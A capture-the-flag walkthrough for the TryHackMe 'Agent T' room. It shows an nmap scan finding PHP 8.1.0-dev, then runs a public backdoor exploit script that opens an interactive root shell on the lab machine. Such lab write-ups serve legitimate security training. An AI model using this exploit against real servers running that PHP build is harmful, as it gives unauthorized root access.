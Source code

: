 ```bash
# PLATFORM          . THM
# CTF NAME          . Agent T
# DESCRIPTION       . Something seems a little off with the server.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/agentt
```

```bash
nmap -sSVC -T5 -p- -oN agentT 10.10.231.14
```

```
PORT   STATE SERVICE VERSION

80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
|_http-title:  Admin Dashboard
```

- Couldn't find anything suspicious on the website. In fact, it was just a template that was missing most of the essential pages (even `index.html` was missing). 

- The trick here was to identify that the PHP version used is `8.1.0-dev`. 

- After some googling around, I quickly found out that this version has a backdoor installed in it that allows RCE on the server running.

- The backdoor can be found [here](https://github.com/flast101/php-8.1.0-dev-backdoor-rce). 

```bash
git clone https://github.com/flast101/php-8.1.0-dev-backdoor-rce

cd php-8.1.0-dev-backdoor-rce

python3 backdoor_php_8.1.0-dev.py

Enter the host url:
http://10.10.231.14

Interactive shell is opened on http://10.10.231.14 

$ whoami
root
```

- The flag is at `/flag.txt`. 